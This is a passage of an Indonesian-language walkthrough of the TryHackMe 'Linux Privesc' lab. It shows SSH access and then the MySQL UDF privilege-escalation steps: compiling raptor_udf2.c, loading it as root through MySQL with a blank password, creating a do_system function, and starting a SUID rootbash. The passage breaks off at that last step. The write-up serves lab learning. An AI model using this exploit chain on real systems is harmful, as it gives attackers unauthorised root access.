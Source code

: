 wroom [Linux Privesc](https://tryhackme.com/room/linuxprivesc)
# Task 1 : Deploy VM

Deploy target. lalu connect ke target menggunakan ssh

```shell
ssh user@IP -o HostKeyAlgorithms=+ssh-rsa
```

selanjutnya lakukan command `id`, dan kita mendapat jawaban dari task 1

```shell
id
# uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

# Task 2 : Service Exploits

dalam task kedua ini, akan dipelajari service exploit, pada service MySql dalam hal ini. Jika kita cek dengan

```shell
ps aux
```

kita akan menemukan bahwa MySql berjalan sebagai root, dan juga root user dalam service ini tidak memiliki password. Kita dapat menggunakan exploit dari [exploit-db](https://www.exploit-db.com/exploits/1518) yang mengambil keuntungan dari UDFs (User Defined Functions) untuk menjalankan sistem sebagai root lwat MySql service.

1. ganti dir ke `/home/user/tools/mysql-udf`
2. compile `raptor_udf2.c` exploit dengan cara

```shell
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

3. connect ke MySql service sebagai root user dengan blank password dengan cara

```shell
mysql -u root
```

4. selanjutnya execute command berikut ketika sudah masuk di MySql service

```shell
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

5. selanjutnya copy `/bin/bash` ke /tmp/rootbash dan set SUID permission

